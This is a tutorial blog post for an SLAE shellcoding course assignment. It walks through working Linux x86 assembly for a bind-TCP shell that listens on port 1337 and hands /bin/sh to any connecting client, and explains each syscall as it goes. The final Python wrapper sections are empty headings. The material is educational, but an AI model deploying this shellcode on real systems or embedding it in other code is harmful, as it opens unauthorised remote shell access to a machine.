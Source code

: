 ```yaml
---
layout: single
title: SLAE Assignment 1 - Shell Bind Tcp
date: 2020-4-28
classes: wide
tags:
    - Shellcoding
    - Linux
    - x86
    - SLAE
---
```


## Introduction
This is the first post of the SLAE exam assignments series.

The first assignement is to create a a shell_bind_tcp shellcode that binds to a port and execs shell on incoming connection.
The port number should be easily configurable.

## Shellcode overview

### Socket basics

To listen and accept incoming connections, we need to follow those steps :

 - first we need to create a socket with the desired properties (here an IPv4, TCP socket)
 - then bind this socket to an address and port
 - put the socket in a listening mode to wait for connections
 - and finally, accept new incoming connection

We have two ways to do this : 
- Using the socket, bind, listen and accept4 syscalls 
- Or using the socketcall syscall 

In the following, we will use the socketcall syscall.

### Bind a shell to the socket

Once an incoming connection is accepted, we need to redirect the standards i/o streams to it so we can interact with the shell we will be executing.
To do so we need to duplicate the socket file descriptor and overwrite the stdin(0), stdout(1) and stderr(2) files descriptor, using dup2 syscall.

Then we can run our shell using the execve syscall.

## The assembly code

### Ressources 

First, we can 

```c
#man socketcall
int socketcall(int call, unsigned long *args);
```

```c
#man socket
int socket(int domain, int type, int protocol);
```

```c
#man bind
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```

```c
#man listen
int listen(int sockfd, int backlog);
```

```c
#man 2 accept
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```

```c
#man dup2
int dup2(int oldfd, int newfd);
```

```c
#man execve
int execve(const char *filename, char *const argv[], char *const envp[]);
```

```c
#man 7 ip
struct sockaddr_in {
               sa_family_t    sin_family; /* address family: AF_INET */
               in_port_t      sin_port;   /* port in network byte order */
               struct in_addr sin_addr;   /* internet address */
           };
```

```c
#/usr/include/asm/unistd_32.h
#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socketcall 102
```

```c
#/usr/include/linux/net.h
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
```

```c
#/usr/include/netinet/in.h
#define	INADDR_ANY		((in_addr_t) 0x00000000)
```

```c
# cat /usr/include/bits/socket_type.h
  SOCK_STREAM = 1,		/* Sequenced, reliable, connection-based
#define SOCK_STREAM SOCK_STREAM
```

```c
#/usr/include/bits/socket.h
#define PF_INET		2	/* IP protocol family.  */
#define AF_INET		PF_INET
```

### Create the socket

We need to use the socketcall with SYS_SOCKET in EBX and ECX pointing to the socket function arguments on the stack.<br>
These arguments need to be AF_INET, SOCK_STREAM, 0 placed in reverse order because the stack is a LIFO data structure (Last In First Out).<br>
A socket file descriptor will be returned in EAX, we will save it in EDI for later use.

```nasm
;socket(AF_INET, SOCK_STREAM, 0)
;socketcall(SYS_SOCKET, *socket_args)
    xor ebx, ebx        ; set ebx to 0
    mul ebx             ; set eax and edx to 0

    push ebx            ; 0 for the protocol argument
    inc ebx	     
    push ebx            ; SOCK_STREAM
    push byte 0x2       ; AF_INET

    mov ecx, esp        ; ecx now points to the socket's arguments
                        ; ebx already set to SYS_SOCKET
    add al, 0x66        ; socketcall 
    int 0x80
    
    xchg edi, eax       ; we save the sockfd to edi 
                        ; (xchg is one byte opcode, so best than mov(2 bytes) 
                        ; because we dont care about eax value)
```

### Bind the socket

```nasm
;sockaddr{AF_INET, port, INADDR_ANY}
;bind(sockfd, *addr, addrlen)
;socketcall(SYS_BIND, *socket_args)
    pop    ebx          ; ebx set to SYS_BIND 
                        ; 2 was the last value pushed on the stack
    push   edx          ; INADDR_ANY (bind to 0.0.0.0)
    push word  0x3905   ; the port 1337
    push   bx           ; AF_INET
    mov    ecx,esp      ; ecx point to the sockaddr struct

    push   0x10         ; sockaddr struct length
    push   ecx          ; address to the sockaddr struct
    push   edi          ; sockfd previously saved

    mov    ecx,esp      ; ecx points to the bind's arguments
    push   0x66         ; socketcall
    pop    eax           
    int    0x80
```

### Listen for connections

```nasm
;socketcall(SYS_LISTEN, *socket_args)
;listen(sockfd, backlog)
    push   edx          ; 0, no queue allowed
    push   edi          ; the sockfd previously saved
    mov    ecx,esp      ; ecx point to the listen's arguments
    shl    ebx, 1       ; SYS_LISTEN
                        ; shift one bit left (multiply by 2) so ebx is 4 
                        ; (2 bytes opcode, 3 bytes for: add ebx, 0x2
    mov    al,0x66      ; socketcall
    int    0x80
```

### Accept connection

```nasm
;socketcall(SYS_ACCEPT, *socket_args)
;accept(sockfd, *addr, *addrlen)
    push   edx          ; null pointer
    push   edx          ; null pointer, we don't care about client informations
    push   edi          ; sockfd
    mov    ecx,esp      ; ecx points to the accept's arguments
    inc    ebx          ; SYS_ACCEPT
    mov    al,0x66      ; socketcall
    int    0x80
```

### Overwrite standard I/O

```nasm
;dup2(sockfd, stderr)
;dup2(sockfd, stdout)
;dup2(sockfd, stdin])
    xchg   ebx, eax     ; set ebx to the new sockfd from accept
    push byte 0x3       
    pop    ecx
link:
    dec    ecx          ; set ecx from 2 to 0 (stderr to stdin)
    mov    al,0x3f      ; dup2
    int    0x80
    jne    link         ; if ecx not equal to stdin, overwrite next standard I/O stream
```

### Pop a shell

```nasm
;execve("/bin//sh", NULL, NULL) 

    push   edx          ; string terminator 0x00
    push   0x68732f2f   ; push /bin//sh in reverse order
    push   0x6e69622f
    mov    ebx,esp      ; ebx point to /bin//sh string
                        ; ecx and edx are already set to 0x00 (Null pointer)
    mov    al,0xb       ; execve 
    int    0x80	
```

## The python wrapper to customize port

## Exec shell using a python script

